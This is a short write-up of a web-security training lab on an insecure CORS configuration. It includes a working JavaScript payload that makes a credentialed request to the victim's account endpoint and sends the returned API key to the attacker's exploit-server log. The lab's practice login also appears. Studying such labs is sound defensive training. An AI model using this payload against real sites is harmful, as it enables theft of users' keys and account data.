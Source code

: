 ----

### Lab description

- This website has an insecure CORS configuration in that it trusts all origins. To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key. You can log in to your own account using the following credentials: `wiener:peter`


#### Lab solution

1 - First authenticate with, `peter` and go to `accountDetails` endpoint. 
2 - Add `Origin` header with any value
3 - Verify that the value reflect

![[Pasted image 20230724211506.png]]

4 - Go to exploit server, and use the payload

```javascript

`<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() { location='/log?key='+this.responseText; }; </script>`

```

5 - Send to the victim and verify the logs

![[Pasted image 20230724211914.png]]